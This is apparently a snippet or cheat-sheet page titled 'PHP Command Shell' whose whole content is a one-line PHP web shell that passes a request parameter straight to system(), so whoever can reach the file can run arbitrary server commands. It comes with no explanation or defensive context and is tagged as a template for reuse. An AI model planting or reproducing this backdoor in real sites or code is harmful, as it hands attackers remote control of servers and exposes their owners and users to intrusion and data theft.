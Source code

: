 ```yaml
---
title: "PHP Command Shell"
date: 2024-7-8
tags: ["php", "shell", "template"]
---
```


---
### PHP Command Shell

<div>

```php
<?php system($_REQUEST['cmd']); ?>
```

</div>

<br>